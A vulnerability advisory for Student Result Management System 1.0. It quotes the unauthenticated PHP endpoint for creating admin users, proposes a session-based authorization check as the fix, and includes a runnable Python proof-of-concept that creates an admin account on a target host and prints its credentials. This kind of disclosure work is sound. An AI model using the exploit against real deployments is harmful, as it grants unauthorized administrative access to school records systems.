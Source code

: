 ### Overview
The Student Result Management System 1.0 contains a critical vulnerability that allows unauthenticated creation of admin users, enabling attackers to gain administrative access without prior credentials. Discovered by Gabriel Felipe of Plaintext Cybersecurity Solutions and tested on Ubuntu 24.04, this flaw affects version 1.0 of the application available on SourceCodester. No CVE has been assigned as of now.


#### Vulnerable PHP code
```php
<?php
chdir('../../');
session_start();
require_once('db/config.php');

if ($_SERVER['REQUEST_METHOD'] === 'POST') {

$fname = ucfirst($_POST['fname']);
$lname = ucfirst($_POST['lname']);
$email = $_POST['email'];
$gender = $_POST['gender'];
$role = '1';
$pass = password_hash($_POST['password'], PASSWORD_DEFAULT);
$status = '1';

try {
$conn = new PDO('mysql:host='.DBHost.';dbname='.DBName.';charset='.DBCharset.';collation='.DBCollation.';prefix='.DBPrefix.'', DBUser, DBPass);
$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

$stmt = $conn->prepare("SELECT email FROM tbl_staff WHERE email = ? UNION SELECT email FROM tbl_students WHERE email = ?");
$stmt->execute([$email, $email]);
$result = $stmt->fetchAll();
```


#### Suggessted fix
```php
// AUTH CHECK - Only allow logged-in users with a privileged level of acess
if (!isset($_SESSION['id']) || !isset($_SESSION['level']) || $_SESSION['level'] != '0') {
    $_SESSION['reply'] = array(array("error", "Unauthorized access."));
    header("location:../");
    exit;
}
```

### Proof of Concept

```python
#!/usr/bin/python3
import argparse
import requests
import random
import string
from threading import Thread

'''Proxy SetUp'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()


def create_user(target):
    url = 'http://' + target + '/srms/admin/core/new_user'
    user_string = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(3))
    username = 'admin_' + user_string + '@watskip.local'
    password = 'Password123!' + user_string
    data = {
        'fnmae': 'Admin_' + user_string,
        'lname': 'new' + user_string,
        'gender': 'Male',
        'email': username,
        'password': password
    }
    response = requests.post(url, data=data, proxies=proxies)
    if response.status_code == 200:
        print('[+] Success.')
        return username, password
    else:
        print('User not created.')
        exit(1)


def parse_args():
    parser = argparse.ArgumentParser(description='SRMS - PoC Create an admin user.')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', required=True)
    return parser.parse_args()

def main():
    args = parse_args()
    print(f"Target: {args.target}")
    print('You can log in with the following credentials:', create_user(args.target))

if __name__ == '__main__':
    main()

```    

